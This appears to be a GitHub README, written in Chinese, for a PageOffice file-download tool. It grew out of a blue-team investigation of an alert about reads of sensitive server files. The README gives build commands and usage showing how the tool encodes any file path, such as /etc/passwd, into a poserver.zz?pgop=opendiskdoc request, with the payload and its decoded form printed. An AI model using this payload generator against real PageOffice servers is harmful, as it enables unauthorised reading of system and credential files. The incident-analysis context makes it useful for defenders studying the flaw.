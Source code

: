 # PageOffice_FileDownload
## 分析
某次蓝队防守时发现流量告警，读取了服务器敏感文件。客户要求解密请求字符串，根据页面回显的版本从github找到相应jar进行审计。
<img width="434" alt="image" src="https://github.com/JosT4r/PageOffice_FileDownload/assets/104313845/32eebafd-c395-4db0-9848-562d906fa315">

## package
```
javac Main.java
jar -cvmf MANIFEST.MF PageOffice-FileDownload.jar *.class
```
## env
`jdk1.8`
## Usage
### 1. encode
```
java -jar PageOffice-FileDownload.jar encode /etc/passwd

encode payload:
poserver.zz?pgop=opendiskdoc&id=KmcgY3MtK3IpLSRfOXE9YmpkL2orbBdrKztnLDh2OCQpbSJyK2w4cj9uKzsXbiRqL2EXci9tIi0lYThjOCs5ciZjF2s=
```
### 2. decode
```
java -jar PageOffice-FileDownload.jar decode KmcgY3MtLG0jY2VxJnQjZSYxYjVlcStwOmMmcWVkOXEpbiZtKC58Ln8tOXIXcDhzJCs

decode payload:
file=/etc/passwd&filename=1.txt&contenttype=application/octet-stream
```
